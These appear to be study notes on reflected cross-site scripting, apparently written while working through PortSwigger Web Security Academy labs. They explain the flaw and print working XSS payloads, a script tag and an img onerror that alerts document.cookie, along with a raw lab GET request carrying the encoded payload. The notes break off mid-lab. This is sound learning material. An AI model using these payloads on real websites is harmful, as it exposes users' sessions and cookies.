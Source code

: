 ####  What is reflected cross-site scripting?
Reflected XXS arises when an application recieves data in an HTTP request and includes that data within the immediate repsonse   
in an unsafe way.  

Suppose a website has a search fucntion which recieved the user suppiled search term in a url parameter 
>https://insecure-website.com/search?term=gift

The application echoes the supplied search term in the response to this URL 
><p>You searched for: gift</p>

Assuming the application doesn't perform any other processing of the data, attackers can construct an attack like this. 
>https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>

***
#### Lab: Reflected XSS into HTML context with nothing encoded
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
> web-security-academy.net/?search=<script>alert(1)</script>


#### Lab: Reflected XSS into HTML context with most tags and attributes blocked
This lab contains a reflected cross-site scripting vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors. To solve the lab, perform a cross-site scripting attack that bypasses the WAF and alerts document.cookie. 

Observe this payload get blocked 
>Inject a standard XSS payload such as: <img src=1 onerror=alert(document.cookie)>

Get request to trouble shoot to see which tags are blocked 
>GET /?search=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E HTTP/1.1
>Host: ac5f1f4e1edda1b5810d0d0f00e60028.web-security-academy.net
>User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: en-US,en;q=0.5
>Accept-Encoding: gzip, deflate
>Referer: https://ac5f1f4e1edda1b5810d0d0f00e60028.web-security-academy.net/
>Cookie: session=FkSFLXR0PyX1JqWdIIMiUQmt4O97Yg6M
>Connection: close
>Upgrade-Insecure-Requests: 1



